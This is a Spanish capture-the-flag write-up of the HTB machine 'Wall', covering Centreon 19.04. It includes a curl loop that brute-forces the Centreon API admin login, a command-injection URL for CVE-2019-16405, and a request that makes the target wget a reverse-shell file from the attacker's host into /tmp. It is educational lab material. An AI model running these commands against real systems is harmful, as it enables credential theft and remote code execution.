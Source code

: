 # Wall

![1_XItXYcP8tLhBnR8FvyPing](https://user-images.githubusercontent.com/87484792/184016462-429034df-66b4-4f34-8386-107417732885.png)

## Datos de Interés

Siento que esta máquina no tiene un gran nivel de dificultad. Será cuestión de investigar un poco sobre el servicio de monitorización que hostea el puerto 80 en el servidor Web. En este caso se trata de **Centreón**. La escalada de privilegios se hará a traves de un SUID que ya hemos podido explotar en otras maquinas, será el screen con versión 4.5.0. Explicaremos de forma manual algunos scripts para entender la intrusión.

## Enumeración

Empezaremos con la fase de enumeración, usaremos nmap para descubrir puertos abiertos. 

`sudo nmap --min-rate 5000 -vvv -p- -sS -Pn -n -oN openPorts.txt 10.10.10.157`

Esta maquina solamente tiene dos puertos abiertos.

![image](https://user-images.githubusercontent.com/87484792/184020390-8073e636-5782-434b-8c9e-d632cec64022.png)

Por un lado tendremos puerto 22 (SSH) y por otro lado el puerto 80 (HTTP).

##  Reconocimiento 

Con SSH no podemos hacer gran cosa ahora mismo, no tenemos credenciales válidas. Iremos a revisar el otro puerto. Encontramos una pagina web con un "Default Page" de Apache. 

![image](https://user-images.githubusercontent.com/87484792/184023616-68fb0323-61b8-4928-863c-4e1f63d08612.png)

Es buena idea empezar a hacer fuzzing, tiraré de dirsearch, en caso de no encontrar nada usaré otro diccionario o haré uso de wFUZZ. Aunque ya puedo adelantar que con dirsearch me fue suficiente.

![image](https://user-images.githubusercontent.com/87484792/184025529-e16886f4-9fc6-4d8c-9cae-5fb7eb29bdd9.png)

Hay cosas interesantes en el reporte del fuzz. 
- */panel.php* parece ser una pequeña troleada del author de la caja.
- */Monitoring*, no podemos acceder. Necesitamos credenciales.
- */centreon* es un software de monitoreo. No tenemos credenciales pero si que tenemos algo muy importante, **la versión**.

![image](https://user-images.githubusercontent.com/87484792/184026472-c0a47dbd-145d-4564-800e-1f39c039f513.png)

La misma web nos da la información que estamos contra un login de versión 19.04

Esto es muy bueno ya que haciendo una busqueda simple en Google, vemos varios CVE y podemos ver que es vulnerable a **RCE**.
Para poder ejecutar estos CVE necesitamos acceso a una cuenta administrador, pero puesto que no tengo ninguno, intentaré bruteforcearlo.

Encontré un script que me ahorraba tiempo para el bruteforce, pero al echarle un ojo quise aprender como funcionaba. Hay un token que nos limita el bruteforce, así que decidi mirar un poco más a fondo. Encontré que este sistema tiene una api que de primera me decia **Unauthorized**. Con una busqueda en google de la API, en la sección de Authenticación pude ver la data que espera la API. Por esta via será mucho más rápido y eficiente que intentar manipular la petición con el token.

Monté un oneliner como este:

`while read line; do request=$(curl -s -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line" | tr -d "\""); if [ $request != "Bad credentials" ];then echo -e "\n"'[*] Password found: '$line; break; fi ; done < /usr/share/wordlists/rockyou.txt`

Funciono. Conseguí la password: `password1`

Y efectivamente era la correcta. 
Tal como se puede mostrar en la imagen, nos ha dejado loguearnos.

![image](https://user-images.githubusercontent.com/87484792/184038497-785183bd-a2e8-4d03-b853-7d061616b1fb.png)

Mirando los POC de los CVE, intenté hacerlo de forma manual. De forma grafica tendremos que acceder a **"Config > Commands > Discovery"**
Sin embargo parece que no funciona, algo esta bloqueando el poder ejecutar comandos. Dudo que siendo admin no tengamos los privilegios suficientes para ejecutar comandos.

![image](https://user-images.githubusercontent.com/87484792/184151052-528764c9-7215-4afa-82df-e14288fbda6f.png)

Me pregunté si habia algún WAF activo. Probé tambien con Scripts que habia de la comunidad en GitHub y Scripts de db-exploit. Ninguno me daba una shell.
Como habia más de un CVE que afectaba a esta versión, decidi mirar los otros caminos posibles. 

## CVE-2019-16405

Podemos realizar Ejecución Remota de Comandos a traves de una modificación de plugin, siempre y cuando tengamos permisos de administrador.
Es el caso, así que probaré.

![image](https://user-images.githubusercontent.com/87484792/184155790-5802941d-d764-4ce8-9d33-05e921090fc9.png)

`URL: http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=id&o=p&min=1`

Y si, efectivamente podemos ejecutar comandos. Trataré de cargar una shell para ejecutarla con bash. Hay varios Scripts que son totalmente funcionales, y que dejaré en este write up, pero esta vez lo haremos de forma manual. 

De primeras, crearé un archivo llamado 'shell' con una reverse dentro, compartiré ese archivo a traves de un servidor Python y por último ejecutaré en el centreon el comando de *wget* para descargarlo en la maquina victima.  

![image](https://user-images.githubusercontent.com/87484792/184157502-36293fb2-ee1a-4d9f-9c34-5a1b7279e2c5.png)

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=wget%20http%3A%2F%2F10.10.16.7%2Fshell%20%3E%20%2Ftmp%2Fshell&o=p&min=1`

